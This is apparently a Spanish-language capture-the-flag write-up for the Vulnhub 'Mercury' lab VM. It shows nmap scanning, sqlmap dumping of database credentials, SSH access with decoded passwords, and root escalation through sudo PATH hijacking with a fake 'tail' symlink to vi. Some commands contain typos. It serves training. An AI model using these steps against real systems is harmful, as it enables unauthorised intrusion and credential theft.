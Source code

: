 # Informe vm Mercury-Vulnhub
A continuación, el walkthrough de la máquina virtual Mercury, del grupo Planets de Vulnhub, explicado paso a paso.
## Fase de reconocimiento 

Primero de todo, escaneamos la red local en busca de direcciones IP. Para ello usaremos el comando arp-scan sobre la interfaz de red en la que estemos trabajando: <br><br>
```
arp-scan -I eth3 --localnet --ignoredups
```
![Captura de pantalla 2024-01-23 180113](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/7410790a-b735-47ee-a640-2f05364c6852)

<br>
En mi caso, la IP de la máquina víctima es la 10.0.2.5. Le enviaremos un paquete para comprobar que está activa: <br><br>

```
ping -c1 10.0.2.5
```
<br>
Si se ha recibido el paquete podemos confirmar que nuestra máquina está activa.<br><br>

![Captura de pantalla 2024-01-23 180235](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/d0ec0854-270f-4e5f-af51-eca55140a64f)

A continuación, realizaremos un escaneo de puertos, buscando cuales estan abiertos con nmap <br><br>
```
nmap -p- --open -sS --min-rate 5000 -n -Pn 10.0.2.5 -oG allports
```
![Captura de pantalla 2024-01-23 183345](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/e4719d30-0384-4c9b-bff6-e6f762df49e6)
<br>

Como podemos comprobar, tiene abiertos los puertos 22 y 8080, que corresponden a ssh y http-proxy respectivamente. <br>
## Conexion e investigación de la máquina
Lo siguiente que haremos será conectarnos a la IP a través del puerto 8080 en un navegador. <br><br>

![Captura de pantalla 2024-01-23 183834](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/2415de39-a745-471f-89f9-276249a71a6f)
<br><br>

Vemos que nos aparece un mensaje, así que seguiremos investigando esta web. <br><br>

Lo siguiente que deberíamos hacer sería lanzar un Gobuster en busca de directorios en el servidor de la web. Pero antes de ello, iremos directamente a ver el robots.txt, a ver si ahí encontramos algo y nos podemos ahorrar el Gobuster. <br><br>

![Captura de pantalla 2024-01-23 185208](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/ad4a1645-07c3-460c-92e1-3267378ba98e)
<br><br>

Probaremos de usar el asterisco como directorio: <br><br>

![Captura de pantalla 2024-01-24 092445](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/b00d3310-a9cd-4f74-9aab-786979fe1ec2)
<br><br>

De lo que vemos en la web, lo más interesante son los 3 puntos que aparecen. Y si nos fijamos en el punto 3, tiene pinta de ser un directorio. Probaremos a ver. <br><br>
![Captura de pantalla 2024-01-24 093452](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/5390e909-9cb6-4d86-bc4e-cdaba241cc26)
<br><br>
Y llegamos a lo que aprece ser una web en desarrollo con 2 enlaces. El primero te lleva a datos sobre Mercurio, que puedes ir cambiando si cambias el número de la URL. Hay hasta 8 datos. El segundo enlace es una lista de cosas que hacer para la web. <br>
El siguiente paso será usar una herramienta llamada SQLmap, para que liste bbdd.<br><br>
```
sqlmap -u http.//10.0.2.5:8080/mercuryfacts/ --dbs --batch
```
![Imagen2](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/78754d50-e547-4a22-a04c-b489aba5320e)
<br><br>

El comando nos buscará posibles vulnerabilidades sql en el servidor de la web y también nos listará las bases de datos disponibles en dicho servidor. <br><br>
![Imagen3](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/078871b4-79f8-408e-ad58-2c5eb3a9236f)
<br><br>

Estas son las bases de datos encontradas en el servidor: information_schema y mercury. <br>
Una vez encontradas las bases de datos, explotaremos la que nos interesa, en nuestro caso, la mercury. A continuación, seguiremos usando sqlmap pero esta vez para extraer información de la base de datos mercury: <br><br>
```
sqlmap -u http.//10.0.2.5:8080/mercuryfacts/ -D mercury --dump-all --batch
```
![Imagen4](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/a2bc1efa-acff-4bfa-b168-e24555a23e5b)
<br><br>

Y hemos obtenido una lista de usuarios con sus respectivas contraseñas. Sabiendo que el puerto 22, correspondiente a ssh, está abierto, vamos a intentar explotar esta vulnerabilidad. <br><br>
## Acceso a la máquina
Tras empezar a probar con cada usuario y contraseña, hemos tenido éxito con el usuario webmaster. <br><br>
```
ssh webmaster@10.0.2.5
```

![Imagen5](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/9c681734-201f-43dc-9d72-ecabcfb608dd)
<br><br>

Como vemos, tenemos acceso con el usuario webmaster. <br><br>

![Imagen6](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/d0979e8d-b046-444a-be3f-3c99fbb649f4)
<br><br>

A continuación, como hemos accedido como webmaster, listaremos los archivos y directorios en busca de algo interesante: <br><br>

![Imagen7](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/fcc207a5-4251-46bc-af88-830e929f3952)
<br><br>

Y hemos encontrado una flag. A continuación, seguiremos indagando en esta máquina en busca de más cosas. <br>
Veamos los derechos y privilegios del usuario con el que hemos accedido. <br><br>

![Imagen8](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/f328f7c3-e689-4e3b-b638-74004a3d080c)
<br><br>

Al parecer, el usuario con el que hemos accedido no tiene privilegios de root. Después de comprobar esto, veamos el directorio que aparecía además de la flag que hemos encontrado: <br><br>

![Imagen9](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/9a38498e-ec54-4b02-bb44-492a12568a0b)
<br><br>

Veamos qué contiene el archivo notes.txt. <br><br>

![Imagen10](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/6c6e1cb2-4c8c-4a3e-bec8-6b1e1d268379)
<br><br>
Parece que son 2 cadenas de caracteres codificados, seguramente en base 64. Vamos a intentar traducirlos. <br><br> 
```
echo "bWVyY3VyewlzdGhlc2l6ZW9MC4wNTZFYXJ0aHMK" | base64 -d mercuryisthesizeof0.056Earths
```

![Imagen11](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/64bc5d5e-3a73-46fb-bedf-c8d108845b54)
<br><br>

Tras decodificarla podemos comprobar que era la contraseña para el usuario webmaster. Lo que nos indica que probablemente la otra sea la contraseña del linuxmaster. Decodifiquémosla entonces: <br><br>
```
echo "bWVyYзVyew1lYW5kaWFtZXRlcmlzNDg4MGttCg= base64 -d mercurymeandiameteris4880km
```

![Imagen12](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/9d2d07cd-649c-4f1a-8b16-b11cdb578b49)
<br><br>

Efectivamente, obtenemos la contraseña de linuxmaster. A continuación, entraremos con estas credenciales. <br><br>
```
ssh linuxmaster@10.0.2.5
```
![Imagen13](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/640c4874-100a-4e88-9bc9-ea340c384aec)
<br><br>

Comprobamos qué derechos y privilegios tiene este usuario: <br><br>

![Imagen14](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/178edaf7-e645-4ee0-8c14-fa0be345860a)
<br><br>

Parece ser que tiene privilegios de root sobre /usr/bin/check_syslog.sh. <br><br>
## Escalada de privilegios

Realizaremos a continuación una escalada de privilegios para obtener acceso como root. <br><br>
```
cat /usr/bin/check_syslog.sh
```
```
tail -n 10 /var/log/syslog
```
```
ln -s /usr/bin/vi tail
```
```
export PATH=$(pwd):$PATH
```
```
sudo --preserve-env=PATH /usr(bin/check_syslog.sh
```

![Imagen15](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/d097a58d-c8f4-47a4-b94b-2d34d11f1741)
<br><br>

A continuación escribiríamos lo siguiente: <br>
```
:!/bin/bash
```
<br>
Y ya tendríamos acceso como root y podríamos encontrar la segunda y útlima flag de esta máquina: <br><br>

![Imagen16](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/0dafd5bd-445a-4c56-924d-c3eb5eb658cd) 
<br>

![Imagen17](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/14a1c3d7-f12a-402c-aeb7-b37a99bcc444)







